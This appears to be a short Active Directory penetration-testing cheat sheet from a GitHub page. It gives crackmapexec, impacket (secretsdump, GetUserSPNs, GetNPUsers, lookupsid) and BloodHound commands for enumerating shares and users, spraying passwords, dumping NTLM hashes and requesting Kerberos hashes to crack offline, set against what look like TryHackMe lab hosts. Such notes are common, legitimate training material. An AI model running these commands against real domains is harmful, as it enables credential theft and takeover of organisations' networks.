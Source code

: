 
# AD_commands



### `crackmapexec`

enumerate the `smb` shares
```
crackmapexec smb 10.10.113.103 -u 'anonymous' -p '' --shares
```
enumerate the users
```bash
crackmapexec smb thm.corp -u 'guest' -p '' --rid-brute | grep SidTypeUser
```
spraying passwords among users
```bash
crackmapexec smb <target-ip> -u users.txt -p passwords.txt --spray
```
dump `NTLM` hashes
```bash
crackmapexec smb 192.168.1.0/24 -u admin -p password123 --ntlm > hash
```
List all users in a domain
```bash
crackmapexec smb 192.168.1.10 -u admin -p password123 --users > users
```
List all groups
```bash
crackmapexec smb 192.168.1.10 -u admin -p password123 --groups > groups
```
### `impacket`

### **Authentication & Password Dumping**

`secretsdump` : Extracts credentials, including `NTLM` hashes, from Windows systems via various techniques.
```bash
impacket-secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.217.111
```

Get `SPNs` : Service Principal Names `(SPNs)` that can be used for `Kerberos` authentication attacks `(Kerberoasting)`.
```bash
impacket-GetUserSPNs -request lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.141.253 -output hash
```

`lookupsid`
This tool queries a remote machine for information about SIDs. It can enumerate domain user and group information by querying the `Security Account Manager` (SAM) database over the `SMB` protocol.
```bash
impacket-lookupsid anonymous@10.10.12.26 -no-pass -domain-sids
```

`GetNPUsers` : When you use the **`GetNPUsers.py`** tool from Impacket to dump users with the **"Do not require Kerberos preauthentication"** option enabled, the output typically provides the following:
1. **Usernames**: A list of usernames that have the preauthentication requirement disabled.
2. **Kerberos AS-REQ Hashes**: If the user has preauthentication disabled, the tool retrieves the Kerberos AS-REQ hash (Ticket Granting Ticket Request). This hash can be cracked offline to retrieve the user's plaintext password using tools like **hashcat**.

```bash
impacket-GetNPUsers -request -format john  lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.141.253 -output hash

```





### bloodhound
#### Neo4j
```bash
sudo neo4j console
```

#### bloodhound
```bash
sudo bloodhound --no-sandbox
```
#### bloodhound-python
```bash
bloodhound-python -ns 10.10.149.218 --dns-tcp -d THM.CORP -u 'automate' -p 'Passw0rd1' -c All --zip
```


---



